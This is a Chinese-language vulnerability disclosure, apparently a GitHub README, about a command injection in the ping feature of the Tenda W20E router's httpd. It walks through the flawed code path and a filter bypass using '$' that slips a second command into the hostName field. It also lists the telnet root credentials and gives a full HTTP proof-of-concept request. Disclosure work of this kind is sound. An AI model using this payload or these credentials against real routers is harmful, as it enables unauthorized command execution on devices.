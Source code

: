 # Tenda W20E 命令注入漏洞
## Overview
- 厂商官网：https://www.tenda.com.cn/
- 固件下载地址：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
腾达W20E V16.01.0.6(3392)存在一个命令注入漏洞，可以在系统中执行任意命令。
## Affected version

![](pic/1.png "")

该图显示了最新的固件:V16.01.0.6(3392)

## Vulnerability details
开启telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

使用ida分析httpd，在函数do_ping_action中:使用ida分析httpd，在函数do_ping_action中:

![](pic/code1.png "")

该程序将通过hostname参数获得的内容传递给hostName。
有一些参数的过滤是由if判断的，但我们可以绕过它，这将在下一节解释。
然后，通过strncpy函数将hostname的内容复制到cfg.hostname中。
而cfg是由函数cmd_get_ping_output()调用的。
在函数cmd_get_ping_output中:

![](pic/code2.png "")

然后通过snprintf函数将cfg.hostname的匹配内容格式化为new_cmd_buf。
new_cmd_buf由popen()调用。
存在命令注入漏洞。
相应的网页如下:

![](pic/web.png "")

## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。
在if的判断中，可以看到字符(；| &)进行筛选，如果包含这些字符，代码将失败。
但是我们可以用' $ '来进行命令注入。
![](pic/code1.png "")
功能数据包如下，我们将使用它来构建poc。
```http
POST /goform/module?1668695093889 HTTP/1.1
Host: 192.168.0.1
Content-Length: 87
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=70ebc4f9c9d22827a5874d1bb6f06abddwdvmy; bLanguage=cn; sessionid=W20Ev5:0.167.3:6b0846
Connection: close

{"setFixTools":{"networkTool":1,"hostName":"test$(touch /tmp/test0)","packageSize":32}}
```

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1.连接物理设备
2.用POC攻击

POC和复制结果如下:

![](pic/effect.png "")

图显示了POC攻击的效果，创建了文件test0。


## CVE-ID
unsigned